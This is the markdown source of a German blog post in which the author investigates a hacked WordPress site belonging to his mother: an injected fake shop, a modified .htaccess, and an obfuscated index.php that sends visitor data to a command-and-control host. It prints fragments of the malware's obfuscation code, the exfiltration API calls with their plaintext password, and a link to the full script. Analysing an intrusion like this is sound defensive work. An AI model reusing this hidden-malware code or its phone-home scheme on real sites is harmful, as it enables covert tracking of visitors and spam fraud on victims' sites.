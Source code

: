 ```yaml
---
title: "Wordpress Hack"
date: "2021-08-01T19:30:00+02:00"
draft: false
author: "Marius Timmer"
keywords: ["Wordpress", "Hack", "Angriff", "Fakeshop", "Hetzner", "PHP"]
tags: ["Technik"]
description: "as"
---
```


{{ $frontmatter.title }}
========================

Hin und wieder helfe ich einigen Leuten in meinem Umfeld beim Aufsetzen
und Warten ihrer Internetseiten. So gucke ich immer wieder mal über
die WordPress-Installation meiner Mutter und stelle sicher, dass sie
auch ja alle Updates installiert hat. Einigen von euch stellen sich
die Nackenhaare beim Namen Wordpress wahrscheinlich schon auf (_so
geht es mir auch immer wieder_), aber am Ende bin ich da nur
die ausführende Kraft. Um das einmal klarzustellen: WordPress
ist ein einziges Sicherheitsrisiko. Das verwundert natürlich nicht,
wenn man bedenkt, wie weit verbreitet die Software ist. Sieht man
aber einmal in den Code erkennt man, dass es bei der Entwicklung
kein wirkliches Konzept gegeben hat oder es maximal versucht wurde
nachträglich einzubauen. Da es sich aber mit seinen ganzen Erweiterungen
um ein Gemeinschafts-Projekt handelt, ist es natürlich auch gar nicht
so einfach, einheitlichen und guten Code zu schreiben. Abe rich wäre
ja schon zufrieden, wenn die Datenbank-Verbindung nicht in einer globalen
Variabel von überall aufzurufen wäre.

Der Fake-Shop
-------------
Anfang des Jahres meldete sich dann meine Mutter bei mir, da sich jemand
bei ihr erkundigt hatte, wie der Status einer bestimmten Bestellung sei.
Er habe ein Ersatzteil für seine Modell-Eisenbahn bestellt, bisher aber
noch keine Reaktion erhalten. An dieser Stelle ist zu erwähnen, dass
meine Mutter keinen Shop führt, sondern Fortbildungen anbietet.

Sehr schnell meldete sie sich also bei mir und bat mich um Hilfe.
In der Tat war da ein Shop auf ihrer Seite, den keiner da hin gespielt
hatte. Er sah auch wirklich nicht gut aus, da einzelne Fragmente
(_Bilder, Preise, Beschreibungen_) einfach in die schon existierende
Seite meiner Mutter eingebettet wurden. Wer darauf rein fällt, bettelt
förmlich auch darum. Allerdings ist das natürlich dennoch ein großes
Problem. Schließlich ist da ein Shop von irgendwelchen Betrügern auf
der Seite meiner Mutter, die somit auch dafür (_juristisch_) verantwortlich
ist.

Ich fand heraus, welche Dateien betroffen waren. Es existierte ein
Verzeichnis (_`designthemes`_), welches ich einfach löschen musste.
Zudem wurde die `.htaccess`-Datei modifiziert, sodass Gäste auf
die Seiten im besagten Verzeichnis geleitet wurden. Der Säuberungsprozess
selbst ging also recht schnell. Einen Tag später wurde ich aber wieder
informiert, dass der Shop zurück sei. Das wunderte mich tatsächlich,
beantwortete mir aber die Frage aller Fragen: Wie ist der Shop da
hingekommen?

Die erste Reaktion bei solchen "_Einbrüchen_" ist natürlich erst einmal
der Austausch sämtlicher Passwörter. Um so erstaunter war ich dann aber,
als ich hörte, dass der Shop zurück sei. Ich schloss somit nun aber aus,
dass jemand die FTP-Zugangsdaten herausgefunden hat und sah mir die
WordPress-Installation meiner Mutter noch einmal näher an. Tatsächlich
fand ich ein kompromitiertes PHP-Skript und ein als gif-Datei getarntes
Skript, welche beim Aufruf durch Nutzer immer wieder angestoßen wurde
und unter Anderem den Shop wieder holte.

Bisher hatte ich noch nicht die Zeit gefunden, mir das Problem genaue
anzusehen. Wenn ich aber schon nicht die Ursache nicht so schnell finden
konnte, wollte ich zumindest die Symptome bekämpfen. Schließlich war
meine Mutter hier rechtlich angreifbar und auch ihre Google-Platzierung
litt natürlich darunter.

Was ich also machte, war ein kleines Skript zu schreiben, welches sich
alle 5 Minuten per FTP mit dem Server verbindet und prüft, ob das mysteriöse
Verzeichnis existiert. Wenn es gefunden wird, wird es direkt gelöscht und
die `.htaccess` wiederhergestellt. Das ist natürlich keine Dauerlösung,
aber die hereinzufallenden Besucher erhielten beim Klick auf die immer
weiter sinkenden Google-Ergebnisse nur noch <abbr title="Seite nicht
gefunden">404</abbr>-Seiten, womit das gröbste Problem schon einmal gelöst war.

Nun geht das schon einige Monate so, ich weiß aber noch immer nicht, wo
der Shop immer wieder her kommt. Die besagten beiden Skripte habe ich
mehrfach gelöscht und an anderen Stellen konnte ich keine Hinweise auf
weitere mysteriöse Dateien feststellen. Zumindest hatte ich einmal den
gesamten Dateibaum heruntergeladen und durchsucht. Daher werde ich mir
nun wohl den Code genauer ansehen. Ich sehe es als eine Art Schnitzeljagd
mit PHP-Code.

Die Subdomain
-------------
Seit letzter Woche betreibt meine Mutter eine weitere WordPress-Instanz
auf einer Subdomain. Von einem auf den anderen Tag war diese nicht mehr
zu erreichen. Daher bat sie mich wieder um Hilfe. Zwei Stunden lang sah
ich mir diverse Hetzner-Konfigurationen an und suchte den Grund, wieso
die Subdomain nicht lief. Viel zu spät bemerkte ich erst, dass die
Subdomain an sich funktionierte, allerdings gab das WordPress nur eine
leere Antwort zurück.

Zuerst verdächtigte ich sämtliche WordPress-Erweiterungen irgendeinen
Unfug zu treiben, zumal es eine Fehlermeldung in den Protokollen
bezüglich veralteter Funktionsaufrufe gab. Dann sah ich mir aber
_aus einer Laune heraus_ einfach mal die `index.php` an und sah,
dass sie ganz merkwürdig aussah. Ganz viel "_Security by obscurity_"
war da drin, was ich im Folgenden zeigen möchte.

Zuerst wird die Fehlerausgabe deaktiviert, weswegen meine Versuche mit der
Apache-Konfiguration Fehlermeldungen auszugeben alle scheiterten. Anschließend
werden merkwürdig benannte Strings definiert, die im Anschluss mit
verschiedenen Offsets ausgelesen werden, woraus sich z.B. auch der Hostname
des Control-Servers ergibt.
```php
//CX3_CX4
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
$OoooOO0 = 'czhnientytwoj';
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a";
$O = urldecode($OOOOOO);
```

Ganz grob lässt sich sagen, dass das Skript möglichst viele Informationen
sammelt und dann an den eigenen Server weiter gibt (_nach Hause telefoniert_):

 - Dokumenten-Root-Verzeichnis
 - Angefragte URL
 - Hostname
 - Sprache
 - User-Agent (_benutzter Browser_)
 - Referrer (_Von wo der Nutzer weiter geleitet wurde_)
 - Verschlüsselte Kommunikation oder nicht (_`HTTP`/`HTTPS`_)
 - Ggf. abweichendes Protokoll
 - IP des Nutzers

Diese Daten werden gesammelt und anschließend an `czhnientytwoj.fluux.xyz` übermittelt. Den Host-Betreiber der Domain habe ich bereits informiert und eine Antwort steht noch aus. Beim nach Hause telefonieren werden die gesammelten Daten zum einen übertragen, aber vor allem wird auch die "_<abbr title="Schnittstelle">API</abbr>_" des angreifers angesprochen. Dabei wird jedes mal ein Passwort übertragen, dass im Klartext vorhanden und gar nicht mal so gut ist. Es lautet nämlich `sl123`. Das ist aber höchst wahrscheintlich nicht schlimm, weil der Angreifer das sowieso nur nutzt, um genau diese Befehle auszuführen, die in diesem Skript getätigt werden. Bei jedem Besuch der Seite wird somit der Angreifer informiert, dass die Seite meiner Mutter noch online ist und jede Veränderung der übertragenen Daten fällt auch sofort auf.

Insgesamt werden die folgenden (_API-_)Aufrufe getätigt:

```php
/Api/siteAllMap.php?page=' . $rUrl . '&pwd=sl123&domain=' . $typeName
/Api/siteUrlApi.php?stype=sitemap&num=6000&pr=' . $pr . '&url=' . $rUrl . '&domain=' . $typeName . '&ip=' . $client_ip
/jump.php?domain=' . $sName . '&page=' . $rUrl . '&bot=0&pr=' . $pr . '&refer=' . $referer . '&ip=' . $client_ip . '&lg=' . $Ooolg
/918.php?domain=' . $sName . '&page=' . $rUrl . '&bot=1&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
/org.php?domain=' . $sName . '&page=' . $rUrl . '&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
```

Somit weiß ich auf jeden Fall, wo ich in den kommenden Tagen ansetzen
und meine Schnitzeljagd fortsetzen kann. Wenn ihr auch Interesse haben
solltet, eröffne ich hiermit die Jagd. Das PHP-Skript könnt ihr als
Text-Datei [hier](/attachments/index_hacked.txt) herunterladen.

Interessant finde ich auch, dass sich der _Angreifer_ nicht die Mühe
gemacht hat, die beiden Zeilen am Ende anzufügen, durch die Wordpress
aufgerufen wird. Wären diese beiden Zeilen dort, wäre der "_Hack_"
vermutlich nicht einmal aufgefallen.

Am Ende frage ich mich nun aber noch immer, wie die beiden Angriffe
funktionieren, damit ich das verhindern kann. esucher der Seite können
eigentlich nichts hochladen. Auch wenn auf der Seite sogar die Kommentarfunktion
ohne Captchas aktiviert war. Seit gestern ist das zumindest auch anders.
Aber ich bezweifle, dass der Angriff jedes mal über die Funktion kommt.
Es bleibt also spannend.